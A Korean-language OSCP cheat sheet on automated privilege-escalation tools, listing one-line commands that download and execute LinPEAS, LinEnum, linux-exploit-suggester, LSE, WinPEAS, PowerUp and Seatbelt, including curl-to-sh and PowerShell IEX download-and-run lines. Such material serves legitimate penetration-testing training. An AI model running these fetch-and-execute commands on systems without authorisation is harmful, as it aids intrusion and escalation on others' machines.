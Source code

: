 # Privilege Escalation - Automated Tools

> **OSCP 핵심**: Linux와 Windows 권한상승 자동화 도구들을 즉시 실행하여 모든 취약점 발견

## ⚡ 즉시 실행할 명령어들

### 🔥 Linux 자동화 도구 (30초 안에)

```bash
# LinPEAS (가장 강력한 Linux privesc 도구)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
# 또는
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh

# LinEnum (빠른 기본 스캔)
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh

# linux-exploit-suggester (커널 익스플로잇 전용)
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh && chmod +x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh

# LSE (Linux Smart Enumeration)
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh && chmod +x lse.sh && ./lse.sh -l1
```

### 🎯 Windows 자동화 도구 (즉시)

```cmd
:: WinPEAS (가장 강력한 Windows privesc 도구)
powershell -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat')"

:: 또는 실행 파일 다운로드
powershell -c "Invoke-WebRequest -Uri 'https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe' -OutFile 'winPEAS.exe'"
winPEAS.exe

:: PowerUp (PowerShell 기반)
powershell -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"

:: Seatbelt (C# 기반 정보 수집)
powershell -c "Invoke-WebRequest -Uri 'https://github.com/GhostPack/Seatbelt/releases/latest/download/Seatbelt.exe' -OutFile 'Seatbelt.exe'"
Seatbelt.exe -group=all
```

### ⚡ 파일 전송 (자동화 도구 업로드용)

